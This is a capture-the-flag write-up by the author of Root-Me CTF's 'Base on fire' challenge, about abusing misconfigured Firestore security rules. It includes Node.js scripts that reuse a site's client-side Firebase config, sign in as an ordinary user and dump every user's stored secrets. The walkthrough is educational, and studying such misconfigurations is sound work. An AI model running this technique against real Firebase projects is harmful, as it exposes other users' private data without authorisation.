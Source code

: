 ```yaml
---
slug: /articles/base-on-fire
title: Base on fire
date: 25/10/2022
category: Web
thumbnail: thumbnail.png
description: Firestore security rules misconfiguration
author: Elf
ctf: Root-Me CTF
---
```


# Base on fire

## Context

This is a write up for a challenge I created for the Root-Me CTF we organized to celebrate the 10k members on the Discord server. \
Please keep in mind I wasn't a participant but the creator of the challenge, hence the level of details and explainations I am able to provide. \
That was an amazing experience to help organizing this CTF, and I hope people learned a few things and enjoyed my challenges!

## Description

> The secret of my admin's account on my website has leaked, but I have no idea how! Please help me!

## Resolution

Let's go to the website and see what we can do from here.

![](not_logged.png)

To access this home page, we have to be logged in. Let's go ahead and create an account.

![](sign_up.png)

We can now access the home page where there's a feature to store a custom note for our user.

![](note.png)

If we believe the description of the challenge, there must be a way somewhere to access the notes for the other users.

Also, because the page doesn't refresh when we change our note but it's reflected against the DOM, the logic to change the note must be done from client side with an asynchronous request from JavaScript. \
Let's examine what is going on in the client side code handling this.

![](js.png)

It seems there's a lot going on here. By looking at it, we learn two things here:

- the JavaScript code has been bundled by [webpack](https://webpack.js.org/)
- the website is using [Firebase](https://firebase.google.com/)

The challenge name makes sense now: we're facing a Firebase application. Firebase is a BaaS (backend as a service), meaning it provides a full backend and a SDK to connect to it from any front end. It's a very popular choice for making web applications nowadays.

If we search for `apikey` inside this JavaScript file (or if we scroll down for a moment), we can see this piece of code:

![](config.png)

This is where the Firebase configuration is put, it contains everything that is needed to connect to the Firebase backend associated to this application. \
In addition to that, we can see it using Firebase authentication and Firestore. The authentication part is probably responsible for the sign up and login logic we've used before, while Firestore is probably the database used to store the users secrets here. \
If we continue to search for interesting things in this source code, we can find this piece of code that describes the logic of the front end. The collection used to store the secrets is therefore called... `secrets`.

![](db.png)

Now, how is handled access control to limit what can users see inside of the Firestore database? Well, for this purpose, Firebase created the [Firestore Security Rules](https://firebase.google.com/docs/firestore/security/get-started). It's a kind of very simple language that allows you to define who can access what data in what case. \
This is a very critical feature, because if these rules are misconfigured, users could access data that are not for them. \
In our case, given the description hinting that we can access the other users' secrets, we can reuse the Firebase configuration and try to connect to the project's Firestore database to see if we can access the data we want.

Let's try that!

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    const snapshot = await getDocs(collection(db, "secrets"))

    snapshot.forEach(doc => {
        console.log(doc.id, ":", doc.data())
    })
}

solve()
```

Unfortunately, we're rejected because we don't have the permission.

![](insufficient_perms.png)

It means the security rules prevent a non logged in user from accessing the `secrets` collection. But as we can obviously at least access our own secret when logged in, maybe we can in this case not only access it but also all the other secrets. Let's try it by signing in first and only then fetching the secrets.

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

const email = "osef@osef.fr"
const password = "aaaaaa"

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    auth.onAuthStateChanged(async user => {    
        if (user) {
            // logged in
            const snapshot = await getDocs(collection(db, "secrets"))
    
            snapshot.forEach(doc => {
                console.log(doc.id, ":", doc.data())
            })

            process.exit(0)
        }
    })

    await signInWithEmailAndPassword(auth, email, password)
}

solve()
```

And that's it! The security rules didn't prevent us from accessing all the secrets in the collection!

![](secrets.png)

You can see the flag being stored as the secret of a user named `admin` whose UID is `1_4m_th3_4dm1n_u1d`, and you also won the right to read all the notes of the participant as a bonus, there are a few funny ones in it. 8)

Flag: `RM{s3cur1ty_rul3s_m1sc0nf1gur4t10n}`
